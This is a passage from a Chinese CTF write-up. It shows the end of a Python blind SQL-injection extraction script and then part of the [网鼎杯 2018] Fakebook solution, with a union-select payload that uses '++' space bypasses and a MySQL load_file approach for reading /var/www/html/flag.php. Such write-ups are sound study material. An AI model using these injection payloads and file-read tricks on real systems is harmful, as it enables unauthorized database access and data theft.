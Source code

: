 ```python
      print(payload)
      if "Hello" in html.text:
         l = mid+1
      else:
         r = mid
      mid = (l+r)>>1
   if(chr(mid)==" "):
      break
   result = result + chr(mid)
   print(result)
print("flag: " ,result)

```


---
# *[网鼎杯 2018]Fakebook
- 考点：sql 读文件
- 考点：ssrf 读文件+反序列化

注册进来后修改url

![](https://img-blog.csdnimg.cn/20210422172023701.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
发现是个sql，整型注入


Sql做法：

注册进入后，查询不存在的用户：

![](https://img-blog.csdnimg.cn/20210422172124933.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

No这里可能存在sql   sqlmap没梭进去

Order by 得到有4字段

整型注入：

![](https://img-blog.csdnimg.cn/20210422172214513.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
空格替换：++   /**/

![](https://img-blog.csdnimg.cn/20210422172230311.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

`
-1++union++select++1,user(),3,4#`

查询到当前用户为root用户

![](https://img-blog.csdnimg.cn/20210422172320895.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
非预期：
mysql中的 `load_file`函数，允许访问系统文件，并将内容以字符串形式返回，不过`需要的权限很高`，且函数参数`要求文件的绝对路径`。

这里我们已经在上面看到了很多绝对路径了，非常的常规：/var/www/html/猜测一波flag的文件名flag.php
